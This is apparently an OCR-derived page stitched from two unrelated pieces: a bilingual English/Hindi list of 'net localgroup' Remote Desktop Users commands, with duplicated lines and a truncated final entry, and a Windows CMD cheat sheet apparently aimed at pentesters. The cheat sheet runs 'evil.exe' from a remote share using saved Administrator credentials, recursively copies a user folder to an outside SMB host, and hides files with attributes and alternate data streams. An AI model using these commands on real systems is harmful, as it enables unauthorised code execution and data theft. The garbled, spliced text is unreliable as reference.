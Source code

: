 - **net localgroup "Remote Desktop Users" /add**: रिमोट डेस्कटॉप उपयोगकर्ता समूह में एक उपयोगकर्ता या समूह जोड़ता है।

- **net localgroup "Remote Desktop Users" /delete**: Removes a user or group from the Remote Desktop Users group.

- **net localgroup "Remote Desktop Users" /delete**: रिमोट डेस्कटॉप उपयोगकर्ता समूह से एक उपयोगकर्ता या समूह हटाता है।

- **net localgroup "Remote Desktop Users" username /add**: Adds a user to the Remote Desktop Users group.

- **net localgroup "Remote Desktop Users" username /add**: रिमोट डेस्कटॉप उपयोगकर्ता समूह में एक उपयोगकर्ता जोड़ता है।

- **net localgroup "Remote Desktop Users" username /delete**: Removes a user from the Remote Desktop Users group.

- **net localgroup "Remote Desktop Users" username /delete**: रिमोट डेस्कटॉप उपयोगकर्ता समूह से एक उपयोगकर्ता हटाता है।

- **net localgroup "Remote Desktop Users" domain\username /add**: Adds a domain user to the Remote Desktop Users group.

- **net localgroup "Remote Desktop Users" domain\username /add**: रिमोट डेस्कटॉप उपयोगकर्ता समूह में एक डोमेन उपयोगकर्ता जोड़ता है।

- **net localgroup "Remote Desktop Users" domain\username /delete**: Removes a domain user from the Remote Desktop Users group.

- **net localgroup "Remote Desktop Users" domain\username /delete**: रिमोट डेस
```bash
cd #Get current dir
cd C:\path\to\dir #Change dir
dir #List current dir
dir /a:h C:\path\to\dir #List hidden files
dir /s /b #Recursive list without shit
time #Get current time
date #Get current date
shutdown /r /t 0 #Shutdown now
type <file> #Cat file

#Runas
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe" #Use saved credentials
runas /netonly /user:<DOMAIN>\<NAME> "cmd.exe" ::The password will be prompted

#Hide
attrib +h file #Set Hidden
attrib -h file #Quit Hidden

#Give full control over a file that you owns
icacls <FILE_PATH> /t /e /p <USERNAME>:F
icacls <FILE_PATH> /e /r <USERNAME> #Remove the permision

#Recursive copy to smb
xcopy /hievry C:\Users\security\.yawcam \\10.10.14.13\name\win

#exe2bat to transform exe file in bat file

#ADS
dir /r #Detect ADS
more file.txt:ads.txt #read ADS
powershell (Get-Content file.txt -Stream ads.txt)

# Get error messages from code
net helpmsg 32 #32 is the code in that case
```